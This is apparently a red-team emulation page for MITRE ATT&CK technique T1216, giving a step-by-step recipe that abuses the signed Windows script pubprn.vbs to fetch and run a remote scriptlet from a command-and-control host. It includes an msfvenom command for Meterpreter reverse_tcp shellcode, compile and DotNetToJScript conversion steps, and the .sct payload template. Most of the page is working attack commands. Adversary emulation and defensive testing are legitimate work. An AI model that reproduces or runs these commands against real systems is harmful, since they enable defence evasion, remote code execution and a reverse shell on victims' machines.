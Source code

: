 # Signed Script Proxy Execution

---
* **ID**: T1216
* **Source**: <https://attack.mitre.org/techniques/T1216/>
---

# Details

## pubprn.vbs
### Execute remote payload in JavaScript
* OS: Windows 7 / Windows 2008 R2 (Version 6.1), Windows 8.1 / Windows 2012 R2 (Version 6.3), Windows 10 / Windows 2016 (Version 1607)
* Methods:
  * Option 1:
  ```
   C:\Windows\SysWOW64\CScript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```
  * Option 2:
  ```
  C:\Windows\SysWOW64\CScript.exe /b C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```

### Create payload (.sct) in JavaScript for Meterpreter

* Compile CSharp source code [`shellcode.cs`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs) to DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -unsafe -platform:x86 -target:library shellcode.cs
```
*	Generate a x86 shellcode in base64 format, e.g. meterpreter:
```
msfvenom -p windows/meterpreter/reverse_tcp --smallest -a x86 --platform win LHOST=<ip_of_C2> LPORT=<port_of_C2> -f raw | base64
```
*	Replace parameter code in [`cmd.txt`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt)  with the shellcode in base64 format
*	Leverage [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)  to convert DLL `shellcode.dll` into JS file `payload.js`:
```
C:\Users\win7x64\Desktop\release_v1.0.4\DotNetToJScript.exe -c ShellCodeLauncher.Program -v v4 -s C:\Tools\cmd.txt -o c:\Tools\payload.js c:\Tools\shellcode.dll
```
*	Copy the content of JS file `payload.js` and insert into the code below:
```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="PoC"
    progid="PoC"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
    <![CDATA[
        <!-- Insert the content of JS file "payload.js" here -->
        <content_of_payload_js>
    ]]>
</script>
</scriptlet>
```
* Save the aforementioned code as a file (e.g. `payload.sct`)

# References

* <https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/>
* <https://evi1cg.me/archives/remote_exec.html>
* <https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct>
* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216/T1216.md>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt>
* <https://github.com/tyranid/DotNetToJScript>

